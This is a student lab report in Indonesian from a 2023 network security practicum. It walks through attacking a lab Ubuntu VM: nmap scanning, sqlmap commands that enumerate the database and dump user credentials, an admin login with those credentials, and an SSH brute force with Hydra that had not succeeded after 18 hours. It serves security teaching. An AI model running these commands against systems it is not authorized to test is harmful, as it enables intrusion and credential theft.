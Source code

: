 ## Cover

<h3 align="center">
    <b>Praktikum Kemanan Jaringan</b><br>
   Attack Scenario Updated
</h3>
<br>
<p align="center">
  <img src="../../public/logo_pens.png" alt="Logo PENS" width="300">
</p>
<br>
<p align="center">
    Dosen Pembimbing:<br>
    Ferry Astika Saputra, S.T., M.Sc.
</p>
<br>
<p align="center">
    Disusun Oleh:<br>
    Lula Rania Salsabilla (3122640045)
</p>
<br>
<p align="center">
    <b>
        KELAS D4 LJ IT B <br>
        JURUSAN D4 LJ TEKNIK INFORMATIKA <br>
        DEPARTEMEN TEKNIK INFORMATIKA DAN KOMPUTER <br> 
        POLITEKNIK ELEKTRONIKA NEGERI SURABAYA <br>
        2023
    </b>
</p>
<br>


## Laporan

Melakukan praktikum dengan cara melakukan upaya peretasan pada VDI Ubuntu. Dengan tujuan dapat berhasil mengakses database dengan menggunakan sqlmap dan mendapatkan user root dengan menggunakan hydra. 

**SQLmap** 
SQLmap adalah sebuah tools yang digunakan untuk melakukan penetration testing ke sebuah webiste dengan mengexploitasi variabel yang terdapat pada sebuah website, baik yang dikirimkan melalui metode POST ataupun GET. Teknik hacking yang menggunakan SQLmap ini dinamakan SQLInjection. [[1](https://www.rumahcode.org/74/Tutorial-SQLmap)].

**Hydra**
Hydra merupakan salah satu tool cracking password yang sangat populer di kalangan pentester, hal ini karena hydra mampu melakukan cracking password dengan cukup cepat dan juga mendukung banyak protokol. Tool ini merupakan tool yang didesain khusus untuk melakukan cracking password dengan metode brute force [[2](https://www.tutorialjaringan.com/2019/07/tutorial-cara-cracking-password-router-dengan-hydra.html)].

Hydra is a brute-forcing tool that helps penetration testers and ethical hackers crack the passwords of network services. Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services. Hydra was developed by the hacker group “The Hacker’s Choice”. Hydra was first released in 2000 as a proof of concept tool that demonstrated how you can perform attacks on network logon services. Hydra is also a parallelized login cracker. This means you can have more than one connection in parallel. Unlike in sequential brute-forcing, this reduces the time required to crack a password. [[3](https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial/)].

**Brute force attack** 
Brute force attack adalah metode peretasan yang dilakukan menggunakan cara trial and error untuk memecahkan kata sandi, kredensial login, maupun kunci enkripsi. Istilah brute force sendiri mengacu kepada upaya paksa yang dilakukan secara berlebihan untuk mendapatkan akses ke suatu akun. Saat melakukan brute force attack, peretas akan mencoba beberapa nama pengguna dan kata sandi dengan bantuan komputer. Kemudian, menguji berbagai kombinasi nama dan kata sandi tersebut hingga menemukan informasi login yang benar. Cara ini tergolong sederhana jika dibandingkan dengan serangan siber lainnya. Namun, hingga saat ini brute force attack masih sering digunakan untuk mengambil-alih akun secara ilegal. [[4](https://www.dewaweb.com/blog/apa-itu-brute-force-attack/)].

### A. Mengambil Data Database Menggunakan sqlmap

1. Langkah pertama, melihat inet dengan menggunakan perintah ifconfig

    ```$ ifconfig```

    ![Screenshot](images/1.png)

2. Langkah selanjutnya kita memastikan apakah ipcalc sudah terinstall di kali linux 

    ![Screenshot](images/2.png)

3. Jalankan command berikut dan masukkan inet yang berhasil kita dapatkan pada langkah pertama

    ```$ ipcalc 192.168.1.13```

    ![Screenshot](images/3.png)

4. Langkah selanjutnya kita lakukan scanning network dengan menggunakan NMap untuk mendapatkan ip target yang akan kita serang dengan menggunakan ip network yang kita dapatkan dari menjalankan command ipcalc

    ```$ nmap 192.168.1.0/24 -p 22 --open```

    ![Screenshot](images/4.png)

5. Kemudian buka ip pada browser

     ```192.168.1.9/index.php```

     ![Screenshot](images/5.jpg)

6. Kemudian mencari halaman yang memerlukan id seperti dibawah ini

    ![Screenshot](images/6.jpg)

7. Menjalankan sqlmap dengan kode dibawah ini untuk melihat database yang ada

    ```sqlmap -u “Url” –dbs```

     ![Screenshot](images/7.PNG)
     ![Screenshot](images/7-2.PNG)

8. Menjalankan sqlmap dengan kode dibawah ini untuk melihat table pada database yang dimaksud

    ```sqlmap -u “url” -D vulnweb –tables```

     ![Screenshot](images/8.PNG)
     ![Screenshot](images/8-2.PNG)

9. Menjalankan sqlmap dengan kode dibawah ini untuk melihat daftar kolom pada tabel

    ```sqlmap -u “url” -T user –columns```

     ![Screenshot](images/9.PNG)
     ![Screenshot](images/9-2.PNG)

10. Menjalankan sqlmap dengan kode dibawah ini untuk melihat credential data user meliputi data id_user, password, dan username

    ```sqlmap -u “url” -C id_user,password,username –dump```

     ![Screenshot](images/10.PNG)
     ![Screenshot](images/10-2.PNG)

11. Buka browser, menuju ke halaman "http://192.168.1.9/admin/index.php" untuk melakukan Login ke user vulnweb

    ![Screenshot](images/new1.jpg)

12. Berhasil masuk ke halaman admin sebagai berikut 

    ![Screenshot](images/new2.jpg)

### B. Mencari tahu password root menggunakan Hydra (bruteforce attack)

1. Kita akan melakukan penyerangan pada ip 192.168.1.9. 

    ```$ nmap 192.168.1.0/24 -p 22 --open```

    ![Screenshot](images/4.png)

2. Berikutnya mencari tahu mengenai kumpulan username dan password dan melakukan download zip atau clone [repo berikut](https://github.com/duyet/bruteforce-database) untuk mendapatkan list username dan password yang akan kita gunakan untuk bruteforce

    ![Screenshot](images/11.PNG)

3. Kemudian melakukan copy paste file username.txt dan passwords.txt ke dalam folder /home/kali

    ![Screenshot](images/12.PNG)

4. Selanjutnya kita jalankan command Hydra untuk memulai proses bruteforcenya dengan menggunakan ip target 192.168.1.9

    ```$ hydra -L username.txt -P password.txt ssh://192.168.1.9```

    ![Screenshot](images/13.PNG)

    Pada proses bruteforce dengan menggunakan Hydra ini ternyata belum mendapatkan hasil yang diharapkan terlebih dengan proses yang sudah berjalan selama 18 jam. Mencoba password dengan besar 2 juta data dan 100 ribu data.